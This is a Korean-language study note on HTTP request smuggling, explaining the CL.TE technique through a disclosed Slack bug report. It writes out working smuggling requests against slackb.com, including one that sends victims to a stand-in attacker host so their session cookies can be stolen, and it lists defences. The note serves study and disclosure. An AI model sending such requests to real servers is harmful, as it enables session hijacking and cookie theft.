

<https://hackerone.com/reports/737140>

## 📌HTTP Request Smuggling 이란 무엇인가?

- 웹 서버 구조를 먼저 이해해야 합니다:
  - 프론트엔드 서버 (로드밸런서/프록시) → 백엔드 서버 (실제 앱)
  - 한 개의 TCP 연결로 여러 HTTP 요청을 재사용 (성능 최적화)

### 핵심 원리
- 프론트엔드와 백엔드가 "요청이 어디서 끝나는지"를 다르게 해석하면, 공격자가 요청을 **밀수(smuggle)**할 수 있습니다.

---

## 📌요청 길이를 결정하는 두 가지 헤더
### Content-Length (CL)

```
Content-Length: 13

Hello World!!
→ 13바이트를 읽으면 요청 끝
```

### Transfer-Encoding: chunked (TE)
```
Transfer-Encoding: chunked

5
Hello
0
→ 청크 크기 → 데이터 → 0으로 끝
```

---


## 📌CL.TE 공격 (Slack에서 사용된 방식)
CL.TE = **프론트엔드는 CL** 사용, **백엔드는 TE** 사용
공격 예시:

```http
POST / HTTP/1.1
Host: slackb.com
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

- **프론트엔드**
  - **Content-Length: 6**을 보고 "0\r\n\r\nG" 6바이트만 읽음
  - 이 6바이트를 백엔드로 전달

- **백엔드**
  - **Transfer-Encoding: chunked**를 보고 청크 방식으로 해석
  - "0" = 첫 청크가 0바이트 → 요청 끝
  - "G"는 버퍼에 남아서 다음 요청의 앞부분이 됨

---

## 📌Slack 공격의 실제 과정


### 1단계: 악의적 요청 조작

```http
POST / HTTP/1.1
Host: slackb.com
Content-Length: 150
Transfer-Encoding: chunked

0

GET https://attacker-collaborator.com/ HTTP/1.1
Host: slackb.com
...
```

### 2단계: 프론트엔드 처리

- **CL**: 150을 보고 150바이트 전체를 백엔드로 전송


*제보자 제공 이미지*

### 3단계: 백엔드 처리

- **TE**를 보고 "0" 청크로 첫 요청 종료

```http
GET https://attacker-collaborator.com HTTP/1.1
X:    // 까지 백엔드의 버퍼에 남음
```


### 4단계: 피해자의 정상 요청 도착

```http
GET /api/messages HTTP/1.1
Host: slackb.com
Cookie: d=victim-session-cookie
```


### 5단계: 요청 결합 (Request Hijacking)
- 백엔드는 **버퍼에 남아있던 악의적 요청과 피해자 요청을 합침**

```http
GET https://attacker-collaborator.com/ HTTP/1.1
X: GET /api/messages HTTP/1.1  // 이 줄은 이상한 커스텀헤더로 인식하고 무시함
Host: slackb.com
GET /api/messages HTTP/1.1
Cookie: d=victim-session-cookie
```

```http
GET https://attacker-collaborator.com/ HTTP/1.1
Host: slackb.com
GET /api/messages HTTP/1.1
Cookie: d=victim-session-cookie
```

### 6단계: 301 리다이렉트 발생

- 백엔드는 GET https://...를 보고 301 리다이렉트 응답
- 리다이렉트 시 쿠키가 함께 전송됨

### 7단계: 쿠키 탈취

- 피해자의 브라우저가 https://attacker-collaborator.com/로 리다이렉트
- 공격자의 서버 로그에 Cookie: d=victim-session-cookie 기록됨


## 📌왜 치명적인가?
- **자동화 가능**
  봇으로 계속 악의적 요청 전송
  랜덤한 Slack 사용자들의 세션 쿠키 수집

- **탐지 어려움**
  - 정상 HTTP 트래픽처럼 보임
  - 피해자는 자신이 공격받은 줄 모름


## 📌방어 방법
- **헤더 해석 통일**: 프론트/백엔드가 동일하게 해석
- **HTTP/2 사용**: 요청 길이 결정 방식이 다름
- **요청 정규화**: 프론트엔드에서 모호한 헤더 제거
- **연결 재사용 비활성화**: 성능은 떨어지지만 안전


## 참고
<https://hackerone.com/reports/737140>

<https://portswigger.net/web-security/request-smuggling>

<https://velog.io/@thelm3716/HTTP-request-smuggling>

>Reported on: November 14, 2019 / Severity 9.3